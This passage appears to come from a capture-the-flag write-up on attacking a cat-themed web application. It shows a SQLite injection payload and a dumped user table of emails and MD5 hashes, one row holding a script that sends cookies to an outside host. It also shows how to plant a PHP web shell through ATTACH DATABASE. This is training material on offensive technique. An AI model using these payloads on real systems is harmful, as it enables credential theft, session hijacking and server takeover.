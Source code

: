 ```bash
    Payload: catName=BLLI'||(SELECT CHAR(86,122,113,106) WHERE 3267=3267 AND 4167=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))))||'&catId=1
---
[09:53:32] [INFO] testing SQLite

```
{: .nolineno}


| user_id | email                         | password                                 | username                                                                                    |
| ------- | ----------------------------- | ---------------------------------------- | ------------------------------------------------------------------------------------------- |
| 1       | axel2017@gmail.com            | dxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxf      | axel                                                                                        |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eebxxxxxxxxxx98c        | rosa                                                                                        |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad         | robert                                                                                      |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe         | fabian                                                                                      |
| 5       | jerrysonC343@gmail.com        | 791593h190??????????????????????         | jerryson                                                                                    |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8         | larry                                                                                       |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6           | royer                                                                                       |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a         | peter                                                                                       |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565         | angel                                                                                       |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad         | jobert                                                                                      |
| 11      | admin1@gmail.com              | 21232f297a57a5a743894a0e4a801fc3 (admin) | `<script>     fetch('http://10.10.16.15/steal2?cookie=' + btoa(document.cookie));</script>` |

Now I used the online `md5` hash cracking platform called [md5hashing](https://md5hashing.net/hash/md5/). There I got my `axel` user's password and It worked for SSH connection.

- Now for the Alternative method we can also use `SQLite Injection` for RCE with this payload 🔻

	```sql
	## SQLite Remote Code Execution
	### Attach Database
	ATTACH DATABASE '/var/www/lol.php' AS lol;
	CREATE TABLE lol.pwn (dataz text);
	INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
	```
	{: .nolineno}

	As per the parameter of `catName` the script state this 🔻

	`$sql_insert = "INSERT INTO accepted_cats (name) VALUES ('$cat_name')";`

	so for the injection to work I need to modify it like this ⏬

	```bash
		cat123');ATTACH DATABASE '/var/www/lol.php' AS lol;
		CREATE TABLE lol.pwn (dataz text);
		INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
	```
	{: .nolineno}
